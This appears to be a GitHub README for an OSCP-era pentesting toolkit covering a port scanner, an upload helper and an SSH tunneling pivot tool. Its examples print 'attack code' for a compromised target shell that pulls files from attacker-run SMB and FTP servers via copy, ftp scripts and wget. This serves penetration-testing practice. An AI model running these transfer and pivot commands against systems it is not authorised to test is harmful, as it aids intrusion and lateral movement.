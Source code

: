 # c0toolkit

Miscellaneous pentesting scripts I wrote as I was going through the OSCP
certification. I will continue to add scripts as I clean them up.

## Usage

Just drag the scripts to your PATH and install the dependencies. Calling each
script with no arguments will provide usage instructions. Here is a breakdown of
the scripts and their uses:

### sc0ut

General purpose "first engagement" scan. Tries to achieve a compromise between
speed and thoroughness. It starts with a lightweight "top ports" nmap scan so
you have something to do while waiting for the in-depth sweeps. It continues
with a full range unicornscan, then drills down on the open ports with NMAP.
Finally, it repeats the process for the UDP ports.

### c0up

Attack upload manager. Through various python dependencies, it helps upload
files to target hosts under a variety of protocols. Choose the upload protocol,
and c0up generates a quick script to copy-paste into the target shell.

Supports:
   * smb
   * ftp
   * http

Example (smb):
```
[c0rax](c0toolkit)> ./c0up -s test 
=========== MSDOS ATTACK CODE =========== 
copy \\10.11.0.14\c0up\test test
========================================= 

 Copy the attack code above to your target shell, then terminate this 
 script with CTRL-C to shut down the SMB server. 

 Starting smbserver instance... 
 * impacket-smbserver c0up test
```

Example (ftp):
```
[c0rax](test)> ./c0up -f 21 test
=========== MSDOS ATTACK CODE =========== 
echo open 192.168.1.66 21 > ftp.txt
echo USER iftp iftp>> ftp.txt
echo quote pasv>> ftp.txt
echo binary >> ftp.txt
echo GET test >> ftp.txt
echo bye >> ftp.txt
ftp -v -n -s:ftp.txt
========================================= 

=========== BASH ATTACK CODE ============ 
$ wget --user=iftp --password iftp ftp://192.168.1.66:21/test
========================================= 

 Copy the attack code above to your target shell, then terminate this 
 script with CTRL-C to shut down the web server. 

 Starting python ftp server instance... 
 * python -m pyftpdlib --port=21 -u iftp -P iftp -D
```

### c0lonize

Provided you have ssh root access to a remote linux host, c0lonize offers a
quick way to set up layer 3 tunneling, establishing a VPN over SSH and easily 
taking over an entire subnet. It's a noisy but very comfortable way to pivot,
which is very useful in engagements like the OSCP labs.

It has a big advantage over sshuttle and similar tools, in that you have control
over IP traffic. You can ping, SYN-scan and use all your tools directly, without
needing proxychains as an intermediary.
